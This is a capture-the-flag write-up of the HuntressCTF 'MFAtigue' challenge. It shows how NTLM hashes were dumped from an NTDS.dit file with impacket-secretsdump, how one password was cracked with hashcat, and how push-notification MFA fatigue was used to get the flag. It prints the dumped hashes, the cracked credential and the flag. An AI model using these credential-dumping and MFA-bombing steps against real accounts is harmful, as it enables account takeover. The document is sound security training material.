 ```yaml
---
title: 2023 HuntressCTF - MFAtigue
date: 2023-11-01T07:00:00-07:00
tags:
  - mfa
  - ntds
  - hash
  - impacket-secretsdump
image: /2023-HuntressCTF/mfa.png
---
```


### Summary
```
Author: Adam Rice

We got our hands on an NTDS file, and we might be able to break into the Azure Admin account! Can you track it down and try to log in? They might have MFA set up though...
```

### Steps

This challenge we given a `NTDS.zip` file and a docker instance to connect to.  I extracted the file and confirmed with `file` that its a Windows registry file.  Next I used `impacket-secretsdump` to dump the hashes from the .dits file. 
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM local -outputfile ./results.txt
```

This tool was able to extract the hash for multiple users.
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:53ffcddea58170b42267fa689f0fa119:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-UUTKPJ98ERD$:1000:aad3b435b51404eeaad3b435b51404ee:ef38fd14274db386b7b5bbddcb37f953:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:948e12fcf27797f773c901c7e1b069d8:::
huntressctf.local\PAMELA_MCCARTHY:1103:aad3b435b51404eeaad3b435b51404ee:98574cb0badfc5d11094dd239af97da2:::
huntressctf.local\MATHEW_BERG:1104:aad3b435b51404eeaad3b435b51404ee:c7e3f4aa78cb46c0b47e61809cef8ca8:::
huntressctf.local\ETHAN_WELCH:1105:aad3b435b51404eeaad3b435b51404ee:151cb8e8e6b942bb0495e88c02365c19:::
huntressctf.local\RILEY_LANGLEY:1106:aad3b435b51404eeaad3b435b51404ee:565911c8b1e206319277f50207377fb1:::
huntressctf.local\PASQUALE_CHRISTIAN:1107:aad3b435b51404eeaad3b435b51404ee:7a2c60c628bda5d963a5934ec733f85f:::
huntressctf.local\HELENA_HESS:1108:aad3b435b51404eeaad3b435b51404ee:feb58b0c807bc1ef3adc390dabc1f6ac:::
huntressctf.local\SALLIE_BALLARD:1109:aad3b435b51404eeaad3b435b51404ee:e7c417bd62f442b1ee53bf70c8d656ef:::
huntressctf.local\LOU_NAVARRO:1110:aad3b435b51404eeaad3b435b51404ee:189b758028dc7ea177e26b990f09aad0:::
huntressctf.local\EDGARDO_DOWNS:1111:aad3b435b51404eeaad3b435b51404ee:38170f23f241863a09d07b2f438fe35a:::
huntressctf.local\GENE_SAWYER:1112:aad3b435b51404eeaad3b435b51404ee:3f8aa43a8714b6cba6438ab8e2890576:::
huntressctf.local\JILLIAN_DOTSON:1113:aad3b435b51404eeaad3b435b51404ee:08e75cc7ee80ff06f77c3e54cadab42a:::
huntressctf.local\EILEEN_NGUYEN:1114:aad3b435b51404eeaad3b435b51404ee:a03d6125a5d27301c10657d20bcb11f0:::
huntressctf.local\8385424457SA:1115:aad3b435b51404eeaad3b435b51404ee:a41edb7e4b7e68bb594d42de289ef4e2:::
huntressctf.local\BERTIE_PRINCE:1116:aad3b435b51404eeaad3b435b51404ee:eb0694cb60d647825ebc6420e0b4f4d4:::
huntressctf.local\KIRK_BARKER:1117:aad3b435b51404eeaad3b435b51404ee:04f60aa2def14e3a0703480d46a74b5c:::
huntressctf.local\PHOEBE_LEWIS:1118:aad3b435b51404eeaad3b435b51404ee:9bc8530fb646ed162646f50dab5ca44a:::
huntressctf.local\LILY_DUNLAP:1119:aad3b435b51404eeaad3b435b51404ee:ab69b9f2f7db11b28dde05ef92961335:::
```

Next, I passed this file to hashcat to try to crack the hashes using the following: `hashcat -m 1000 results.txt.ntds /usr/share/wordlists/rockyou.txt --force`.

Hashcat was able to find crack the hash for one user:
```bash
huntressctf.local\JILLIAN_DOTSON:katlyn99
```

I started up the docker instance and attempted to login with the newly discovered credentials.

![](/2023-HuntressCTF/mfa2.png)

I confirmed the credentials work as I was presented with a `Send Push Notification`.  Based on the challenge title `MFAtigue`, I decided to spam the Send Push Notificaiton button, hoping the user would be annoyed and approve one of the requests. 

After a few attempts, I was presented with the flag: `flag{9b896a677de35d7dfa715a05c25ef89e}`

![](/2023-HuntressCTF/mfa3.png)